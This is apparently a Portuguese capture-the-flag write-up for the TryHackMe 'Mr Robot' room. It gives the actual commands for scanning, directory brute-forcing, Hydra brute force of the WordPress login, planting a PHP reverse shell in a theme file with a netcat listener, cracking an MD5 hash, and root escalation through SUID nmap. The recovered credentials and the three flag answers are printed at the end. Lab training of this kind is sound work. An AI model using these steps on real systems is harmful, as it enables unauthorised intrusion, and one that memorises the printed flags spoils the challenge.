 # Relatório da sala - [Mr Robot](https://tryhackme.com/r/room/mrrobot)
##  IP DO ALVO: 10.10.165.155
Resultado nmap:
Comando utilizado: nmap -sV -sC -oA scans/initial 10.10.165.155
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 13:57 EDT
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.165.155
Host is up (0.24s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
```
Utilizando Gobuster, foi possível realizar um brute force de diretórios web no site que estamos atacando.
Comando utilizado: ```gobuster dir -u http://10.10.165.155 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -o gobuster.txt```
```
Diretórios encontrados:
/images               (Status: 301) [Size: 236] [--> http://10.10.165.155/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.165.155/blog/]
/sitemap              (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.165.155/video/]
/login                (Status: 302) [Size: 0] [--> http://10.10.165.155/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/0                    (Status: 301) [Size: 0] [--> http://10.10.165.155/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.165.155/wp-content/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/atom/]
/image                (Status: 301) [Size: 0] [--> http://10.10.165.155/image/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.165.155/admin/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.165.155/audio/]
/intro                (Status: 200) [Size: 516314]
/css                  (Status: 301) [Size: 233] [--> http://10.10.165.155/css/]
/wp-login             (Status: 200) [Size: 2613]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.165.155/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.165.155/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.165.155/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.165.155/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.165.155/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.165.155/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.165.155/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.165.155/0000/]
 ```
Acessando o diretório do Robots.txt, encontramos dois arquivos no qual não eram para ser indexados ao procurar eles no google. Primeiro arquivo: key.1-of-3.txt, contendo a primeira flag do desafio, e o arquivo fsocity.dic, contendo várias palvras aleatórias.


Acessando o diretório /wp-login.php, acessamos uma página de login do Wordpress, então, utilizei a ferramenta Hydra para realizar um ataque de bruteforce para ver se era possível capturar alguma informação utilizando o arquivo fsocity.dic que foi disponobilizado pelo site.
 
Comando utilizado: ```hydra -L fsocity.dic -p test 10.10.165.155 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30```
Com esse comando, o nome de usuário: Elliot, foi encontrado
 
Reutilizando o comando da ferramenta Hydra, porém deixando o nome de usuário Elliot como um dado salvo e adicionando o arquivo .dic para dar um brute force nas senhas, descobri a senha de usuário:
```[80][http-post-form] host: 10.10.165.155   login: Elliot   password: ER28-0652```
 
Com este usuário e senha do WP, podemos realizar um reverse shell.
Comando utilizado para abrir um nc:```rlwrap nc -lvnp 53```
 
Modifiquei o tema do wordpress na pasta Twenty Fifteen: Archives (archive.php) e coloquei um reverse shell que eu encontrei no github do autor pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-she>
Após colar isso e modificar o tema, entrei na aba http://10.10.165.155/wp-content/themes/twentyfifteen/archive.php e consegui acesso do sistema.
 
Acessando a máquina e indo no diretório /home/robot/ foi encontrada a segunda key do desafio, porém ela não pode ser lida sem ter previlégios, mas outro arquivo suspeito está no mesmo diretório, que é o password-raw.md5, contendo uma s>
 
Utilizando a ferramenta john, realizei um cracker de password em md5 e encontrei a senha = abcdefghijklmnopqrstuvwxyz
Comando utilizado: ```john md5.hash --wordlist=fsocity.dic --format=RAW-MD5```
Com essa senha, temos como realizar o login de root no sistema.
Segunda flag do desafio encontrada na pasta /robot
 
Para achar a última flag, primeiramente utilizei o python para deixar um terminal completo para mim: ```python -c 'import pty;pty.spawn("/bin/bash")'```
Após isso, fiz uma escalação de previlégios nos arquivos que apresentam o bit suid na máquina, utilizando o comando: ```find / -perm +6000 2>/dev/null | grep '/bin'```
Pode notar que o nmap está instalado na máquina, no qual apresenta bit SUID instalado, com isso, descobri que o nmap apresenta um modo interativo utilizando:
nmap --interactive. Acessei o site https://gtfobins.github.io/gtfobins/nmap/#shell e coloquei o comando nmap> !sh para conseguir interagir com o terminal, dentro dele, uma pasta /root é mostrada, e dentro dela, está nossa última flag do desafio.

<details>⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
<summary>Respostas do desafio</summary>

1.  **flag {073403c8a58a1f80d943455fb30724b9}**
2.  **flag {822c73956184f694993bede3eb39f959}**
3.  **flag {04787ddef27c3dee1ee161b21670b4e4}**
</details>

